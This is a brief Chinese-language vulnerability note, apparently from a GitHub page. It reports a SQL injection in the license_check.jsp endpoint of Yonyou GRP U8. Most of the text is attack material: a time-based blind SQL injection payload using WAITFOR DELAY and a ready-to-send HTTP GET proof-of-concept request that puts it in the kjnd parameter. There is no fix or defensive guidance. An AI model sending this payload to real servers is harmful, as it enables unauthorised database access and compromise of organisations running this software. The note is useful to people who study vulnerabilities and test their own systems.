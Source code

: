 # 用友 GRP U8 license_check.jsp 存在SQL注入


## 用友 GRP U8 license_check.jsp 存在SQL注入

## sql注入payload
```
';WAITFOR DELAY '0:0:5'-- q
```

## poc
```

GET /u8qx/license_check.jsp?kjnd=1%27;WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Connection: close
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/Lc4ILVKo1g8Fcvju7pia1Lgsn9t5LBBrZibkYPnsDqIIA3LNhWdFso2I2DMibJJ4DQZbvCibWlRJJqfeib7ZiafvQiceA/640?wx_fmt=png&wxfrom=13)

